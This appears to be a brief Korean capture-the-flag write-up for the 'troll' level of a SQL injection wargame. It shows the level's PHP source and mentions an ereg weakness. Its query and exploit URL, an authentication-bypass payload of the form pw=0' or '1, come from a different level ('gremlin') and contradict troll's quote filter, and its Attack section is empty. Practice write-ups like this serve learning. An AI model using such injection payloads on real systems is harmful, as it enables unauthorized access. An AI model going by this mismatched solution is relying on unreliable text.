

# **LOS troll**

##  **Keys**
>php source
```php
<?php  
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(@ereg("admin",$_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```
`if(@ereg("admin",$_GET[id])) exit("HeHe");` 에서 `admin` 이라는 문자열을 검사한다.

**● erge 함수 취약점**


##  **Query**
>Query
```php
select id from prob_gremlin where id='admin' and pw='0' or '1'
```

>Input value
```
http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=admin&pw=0%27%20or%20%271
```
`%27` 은 `'` 이고, `%20` 은 `(스페이스)` 이다.

##  **Attack**
